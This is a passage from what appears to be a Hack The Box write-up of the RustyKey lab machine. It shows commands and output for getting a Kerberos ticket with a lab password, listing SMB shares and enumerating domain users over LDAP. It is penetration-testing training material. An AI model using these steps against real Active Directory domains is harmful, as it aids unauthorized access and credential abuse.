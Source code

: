 `getTGT` works after the time sync

```console
root@kali:~# impacket-getTGT rustykey.htb/rr.parker:'8#t5HE8L!W3A' -dc-ip dc.rustykey.htb
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies

[*] Saving ticket in rr.parker.ccache

root@kali:~# export KRB5CCNAME=rr.parker.ccache
```

## 2.3. Getting some information with rr.parker TGT

Get shares

```console
root@kali:~# netexec smb dc.rustykey.htb -d rustykey.htb -u rr.parker -k --use-kcache --shares
SMB         dc.rustykey.htb 445    dc               [*]  x64 (name:dc) (domain:rustykey.htb) (signing:True) (SMBv1:False) (NTLM:False)
SMB         dc.rustykey.htb 445    dc               [+] rustykey.htb\rr.parker from ccache
SMB         dc.rustykey.htb 445    dc               [*] Enumerated shares
SMB         dc.rustykey.htb 445    dc               Share           Permissions     Remark
SMB         dc.rustykey.htb 445    dc               -----           -----------     ------
SMB         dc.rustykey.htb 445    dc               ADMIN$                          Remote Admin
SMB         dc.rustykey.htb 445    dc               C$                              Default share
SMB         dc.rustykey.htb 445    dc               IPC$            READ            Remote IPC
SMB         dc.rustykey.htb 445    dc               NETLOGON        READ            Logon server share
SMB         dc.rustykey.htb 445    dc               SYSVOL          READ            Logon server share
```

Get users

```console
root@kali:~# netexec ldap dc.rustykey.htb -d rustykey.htb -u rr.parker -k --use-kcache --users
LDAP        dc.rustykey.htb 389    DC               [*] None (name:DC) (domain:rustykey.htb)
LDAP        dc.rustykey.htb 389    DC               [+] rustykey.htb\rr.parker from ccache
LDAP        dc.rustykey.htb 389    DC               [*] Enumerated 11 domain users: rustykey.htb
LDAP        dc.rustykey.htb 389    DC               -Username-                    -Last PW Set-       -BadPW-  -Description-
LDAP        dc.rustykey.htb 389    DC               Administrator                 2025-06-05 06:52:22 0        Built-in account for administering the computer/domain
LDAP        dc.rustykey.htb 389    DC               Guest                         <never>             0        Built-in account for guest access to the computer/domain
LDAP        dc.rustykey.htb 389    DC               krbtgt                        2024-12-27 08:53:40 0        Key Distribution Center Service Account
LDAP        dc.rustykey.htb 389    DC               rr.parker                     2025-06-05 06:54:15 0
LDAP        dc.rustykey.htb 389    DC               mm.turner                     2024-12-27 18:18:39 0
LDAP        dc.rustykey.htb 389    DC               bb.morgan                     2025-09-07 15:16:39 0
LDAP        dc.rustykey.htb 389    DC               gg.anderson                   2025-09-07 15:16:39 0
LDAP        dc.rustykey.htb 389    DC               dd.ali                        2025-09-07 15:16:39 0
LDAP        dc.rustykey.htb 389    DC               ee.reed                       2025-09-07 15:16:39 0
LDAP        dc.rustykey.htb 389    DC               nn.marcos                     2024-12-27 19:34:50 0
LDAP        dc.rustykey.htb 389    DC               backupadmin                   2024-12-30 08:30:18 0
```
